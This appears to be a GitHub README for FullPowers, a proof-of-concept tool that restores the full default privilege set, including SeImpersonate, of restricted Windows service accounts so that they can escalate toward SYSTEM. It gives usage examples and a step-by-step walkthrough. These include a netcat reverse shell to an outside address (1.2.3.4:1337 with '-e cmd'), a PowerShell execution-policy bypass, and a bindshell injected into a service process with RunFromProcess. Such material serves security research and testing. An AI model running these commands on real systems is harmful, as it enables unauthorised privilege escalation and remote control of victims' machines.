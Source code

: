 # FullPowers

___FullPowers___ is a Proof-of-Concept tool I made to automatically recover the default privilege set of a service account.

<p align="center">
  <img src="demo.gif">
</p>

## Rationale

On Windows, some services running as `LOCAL SERVICE` or `NETWORK SERVICE` are configured to __run with a restricted set of privileges__. Therefore, even if the service is compromised, __you won't get the golden impersonation privileges__ and privilege escalation to `LOCAL SYSTEM` should be more complicated. However, I found that, when you __create a scheduled task__, the new process created by the __Task Scheduler Service__ has __all the default privileges__ of the associated user account (except _SeImpersonate_). Therefore, with some token manipulations, you can spawn a new process with all the missing privileges.

For more information: https://itm4n.github.io/localservice-privileges/

## Usage

You can check the help message using the `-h` option.

```
c:\TOOLS>FullPowers -h

FullPowers v0.1 (by @itm4n)

  This tool leverages the Task Scheduler to recover the default privilege set of a service account.
  For more information: https://itm4n.github.io/localservice-privileges/

Optional arguments:
  -v              Verbose mode, used for debugging essentially
  -c <CMD>        Custom command line to execute (default is 'C:\Windows\System32\cmd.exe')
  -x              Try to get the extended set of privileges (might fail with NETWORK SERVICE)
  -z              Non-interactive, create a new process and exit (default is 'interact with the new process')
```

### Example 1, basic usage
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 9976
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>
```

### Example 2, specify a custom command line
```
c:\TOOLS>FullPowers -c "powershell -ep Bypass"
[+] Started dummy thread with id 9028
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\WINDOWS\system32> Get-ExecutionPolicy
Bypass
```

### Example 3, start a netcat reverse shell and exit
```
c:\TOOLS>FullPowers -c "C:\TOOLS\nc64.exe 1.2.3.4 1337 -e cmd" -z
[+] Started dummy thread with id 5482
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
```

## How-To

__You want to test this PoC yourself? That's great!__ Here are some simple instructions to get you started.

The overall idea is to start a bindshell from the process of an existing service, connect to it and then run the executable. 

1. You'll need 2 third-party tools, [netcat](https://eternallybored.org/misc/netcat/) and [RunFromProcess](https://www.nirsoft.net/utils/run_from_process.html).  
2. Pick a service which has limited privileges, e.g.: `upnphost`.  
3. Open the __Task Manager__, go to the __Services__ tab and get the __PID__ of the corresponding process.  
4. Use the following command to start the bindshell __as an administrator__:  
```
C:\TOOLS>RunFromProcess-x64.exe <PID> C:\TOOLS\nc64.exe -l -p 9001 -e cmd
```
5. Use the following command to connect to the bindshell:  
```
C:\TOOLS>nc64.exe 127.0.0.1 9001
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name          Description              State
======================= ======================== =======
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeCreateGlobalPrivilege Create global objects    Enabled
```
6. We can see that the current process has no impersonation privileges. Now run the PoC...  
```
c:\TOOLS>FullPowers
[+] Started dummy thread with id 5568
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.19041.84]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
nt authority\local service

C:\WINDOWS\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

You should now have a shell __with impsersonation privileges__!

